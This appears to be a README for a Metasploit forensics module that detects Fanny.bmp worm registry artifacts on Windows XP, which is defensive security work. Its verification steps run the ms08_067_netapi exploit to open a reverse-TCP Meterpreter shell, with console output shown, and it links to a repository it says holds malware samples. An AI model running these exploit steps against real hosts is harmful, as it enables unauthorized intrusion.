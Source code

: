 ## Fanny.bmp (DWE) Detection Module
Fanny or DWE for short. (DWE = DementiaWheel)

## Vulnerable Application
Detection module based on the post-/gather/forensics module duqu_check.rb,

Fanny is a worm that infects windows machines, via USB (not trough Autorun, or at least not only). It used exploits later found in StuxNet, and creates some Registry artifacts.
This module is intended to detect those artifacts.

POC https://user-images.githubusercontent.com/68499986/102911824-e2678280-447c-11eb-8495-7180a52c7266.png


  #### supported Environments:
    - [x] Windows x86

  ####  supported SessionTypes:
    - [x]  Meterpreter
    - [x]  Shell

  #### supported OS's:
    - [x] Windows XP Pro (SP3)

-------------------------


## Verification Steps


- [x] First, Git clone the fanny_bmp_check.rb from https://github.com/loneicewolf/metasploit_fanny_check_module/blob/main/fanny_bmp_check.rb

- [x] place it into your msf folder, (important, check the following step before placing it) usually located in /root/.msf4/modules/

- [x] * make the following folders: (under each other) /post/windows/gather/forensics/ <fanny_bmp_check.rb here>

- [x] Start msfconsole

- [x] use exploit/windows/smb/ms08_067_netapi

- [x] set RHOST and LHOST.

- [x] msf6 exploit(windows/smb/ms08_067_netapi) > run

        [*] Started reverse TCP handler on 192.168.122.1:4444 
        [*] 192.168.122.160:445 - Automatically detecting the target...
        [*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
        [*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
        [*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
        [*] Sending stage (175174 bytes) to 192.168.122.160
        [*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check 

        [*] Searching registry on WORKSTATION1 for Fanny.bmp artifacts.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
        [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
        [*] WORKSTATION1: 4 result(s) found in registry.

-------------------------

## Options
List each option and how to use it.
Session is needed, Do not know really what to include here, other than that.

  < Intentionally left blank >

-------------------------


### Option Name

Talk about what it does, and how to use it appropriately. If the default value is likely to change, include the default value here.

  < Intentionally left blank >

-------------------------


## Scenarios
Specific #demo

I Will upload a POC video demonstrating this on Windows 10, x64. Sooner or later.
There's already a XP POC video located here 
 - https://github.com/loneicewolf/fanny.bmp/blob/main/FannyMalware%20POC%20.mp4

"Equation Group Q&A PDF File" - Explaining (not only) Fanny, (but also many others, in the "same family" of malware)
 
 - https://github.com/loneicewolf/fanny.bmp/blob/main/Equation_group_questions_and_answers.pdf

If needed, I included malware samples on the same page.
 
 **It goes without saying that if you proceed to this page Please exercise caution.**
 
 - https://github.com/loneicewolf/fanny.bmp


## References

- [x] https://securelist.com/a-fanny-equation-i-am-your-father-stuxnet/68787
- [x] https://fmnagisa.wordpress.com/2020/08/27/revisiting-equationgroups-fanny-worm-or-dementiawheel/
- [x] https://edwardsnowden.com/wp-content/uploads/2017/06/FOXACID-Server-SOP-Redacted.pdf


### Optional reading

- [x] https://github.com/loneicewolf/fanny.bmp/blob/main/2004.06195.pdf

-------------------------


## Version and OS

### Tested on

  - [x] Windows XP Pro SP3 English


-------------------------


## Contact info

Any questions or Improvements / Issues is welcomed either via mail or at the issues tab/page.

william-martens@protonmail.ch
